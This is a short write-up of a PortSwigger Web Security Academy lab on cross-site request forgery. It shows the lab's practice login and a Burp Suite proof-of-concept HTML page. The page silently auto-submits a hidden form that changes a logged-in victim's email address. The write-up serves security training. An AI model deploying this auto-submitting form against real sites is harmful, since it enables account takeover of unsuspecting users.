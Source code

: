 # CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf

---------------------------------------------

There is a function to update the user's email:



![img](Pilot Testing/images/1.png)

It is a POST request. Clicking "Engagement tools" > "Generate CSRF PoC", it generates an HTML PoC.



![img](media/2.png)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5004c04ed095e819302fc004d00f6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

